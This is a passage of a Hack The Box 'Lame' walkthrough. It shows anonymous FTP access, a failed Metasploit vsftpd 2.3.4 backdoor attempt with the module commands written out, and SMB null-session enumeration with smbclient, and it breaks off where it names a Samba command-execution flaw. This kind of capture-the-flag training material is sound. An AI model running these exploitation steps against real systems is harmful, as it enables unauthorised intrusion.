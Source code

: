 ![ftp](GitHubv2/HackTheBox/EASY/Lame/screenshots/ftp.png)

The server accepts:
- **User:** `anonymous`
- **Password:** *(empty)*

![ftp_enumeration](GitHubv2/HackTheBox/EASY/Lame/screenshots/ftp_enumeration.png)

No files of interest are available for download.  
However, the version `vsftpd 2.3.4` is known to be backdoored (**CVE-2011-2523**).

#### Exploit Attempt (Unsuccessful)

Search on Metasploit to check if there is any vulnerability for `vsftpd 2.3.4`:

![search_vsftpd](GitHubv2/HackTheBox/EASY/Lame/screenshots/search_vsftpd.png)

Using Metasploit’s `vsftpd_234_backdoor` module:

```bash
msfconsole
search vsftpd_234
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 10.10.10.3
run
```

![vsftpd_fail](GitHubv2/HackTheBox/EASY/Lame/screenshots/vsftpd_fail.png)

The exploit completes but fails to yield a shell, so we proceed to investigate other services.

---
### 2.2 SMB Enumeration

We check available SMB shares using unauthenticated (null session) access:

```bash
smbclient -L 10.10.10.3 -N
```

![smbclient_null](GitHubv2/HackTheBox/EASY/Lame/screenshots/smbclient_null.png)

The `tmp` share is writable and accessible without authentication:

```bash
smbclient //10.10.10.3/tmp -N
```

![smbclient_tmp](GitHubv2/HackTheBox/EASY/Lame/screenshots/smbclient_tmp.png)

---
## 3. Foothold

The Samba version `3.0.20-Debian` is vulnerable to the **username map script** command execution vulnerability (CVE-2007-2447).  
